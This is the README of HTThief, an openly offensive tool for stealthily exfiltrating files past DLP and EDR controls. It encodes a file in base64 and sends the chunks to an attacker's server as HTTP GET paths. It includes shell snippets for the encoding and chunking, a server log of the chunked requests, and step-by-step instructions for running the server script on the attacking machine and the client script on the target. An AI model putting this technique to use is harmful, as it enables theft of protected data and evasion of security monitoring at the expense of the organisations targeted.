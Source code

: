 # HTThief

This tool was developed with the intention of serving as a (simple but effective) way to transfer files protected by DLP, E/XDR and etc (exfiltration) in a stealthy way. Convert any type of file (eg executables, Office, Zip, images) into URLs and send them via simple GET.

# Author
Vinicius Vieira

# Why is this different from every other HTTP exfiltration technique?

The most common data exfiltration techniques via HTTP are based on file upload (encrypted or not). These techniques can be easily detected, either by anomalous behavior of the endpoint (uploading a file on an unknown website) or even by traffic (through DLP, for example), as well as being easily mitigated.
HTThief differs from the others because it encodes the raw file data in Base64 and divides it into small strings, which are passed via URL to the server. This makes detection and mitigation very difficult, because through the process of steganography of the file in URLs, it becomes practically impossible to detect that each one is actually a piece of a certain file.

# How it works?

How HTThief works is based on two assumptions: 

1) encode the file in base64 to be sent; and
   
    ```
    ### encoding the file
    echo "Enconding the file..."
    ENCODED=$(base64 $path)
    echo $ENCODED > /tmp/ax0c.txt
    ```
    
2) divide it into pieces to make it difficult to decode the file during sending
   
    ```
    ### organizing the file
    echo "Organizating the file..."
    tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
    FILE="/tmp/ax0d.txt"
    ```
By default base64 will generate strings of 76 characters with a nullbyte (which in ASCII is understood as a space) at the end, instead of a new line. 

![h6](https://github.com/V1n1v131r4/HTThief/assets/1153876/4612fce1-19e5-4d74-90de-cb117e493545)

HTThief takes advantage of this to replace these spaces with new lines by means of ```tr -s``` and send the HTTP GET of each line of the encoded file, that is, pieces of 76 characters. 

```
tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
```

That way, even if there is some soul that decodes during tracing, this piece of code could not be identified as the original file.

```
┌──(kali㉿kali)-[~/HTThief]
└─$ cat /var/log/apache2/access.log
 
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET //9j/4QCKRXhpZgAATU0AKgAAAAgABQENAAIAAAAnAAAASgEaAAUAAAABAAAAcgEbAAUAAAABAAAA HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /egEoAAMAAAABAAIAAAITAAMAAAABAAEAAAAAAAA8P3BocCBwaHBpbmZvKCk7IF9faGFsdF9jb21w HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /aWxlcigpOyA/PgAAAAAASAAAAAEAAABIAAAAAf/bAIQAAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB/8AAEQgDIAMg HTTP/1.1" 404 432 "-" "curl/7.88.1"
```


# Tutorial

HTThief is based on two scripts, one to be executed on the server/attacker machine (who will receive the file) and another on the client (machine that will send the file):

```
┌──(kali㉿kali)-[~/HTThief]
└─$ ls -l
total 8
-rwxr-xr-x 1 kali kali 2681 Aug 10 09:13 client.sh
-rwxr-xr-x 1 kali kali  846 Aug 10 09:11 server.sh

```

After choosing the file to be sent, first you must run server.sh on the attacking machine:

![h1](https://github.com/V1n1v131r4/HTThief/assets/1153876/48c9c3eb-250b-429d-9b0a-9af753e87709)



On the target machine, run client.sh and fill in the absolute path of the file that should be sent:

![h2](https://github.com/V1n1v131r4/HTThief/assets/1153876/d708c3de-0553-49c5-9319-fde9c393f906)


After sending the file and **you got the "Done!" response**, go back to the attacking machine, type "yes" for the script flow to end.

**WARNING**: The larger the file, the longer the upload process takes. Be patient and wait until it is fully shipped
At the end of receiving, choose the original extension of the file so that it is originally reassembled on the attacking machine.


![h3](https://github.com/V1n1v131r4/HTThief/assets/1153876/e3a3f84d-3f13-4908-acf9-26d5766edcb0)

![h4](https://github.com/V1n1v131r4/HTThief/assets/1153876/86d891d5-5aa2-45a0-93d2-781ac72f7277)


# Requires
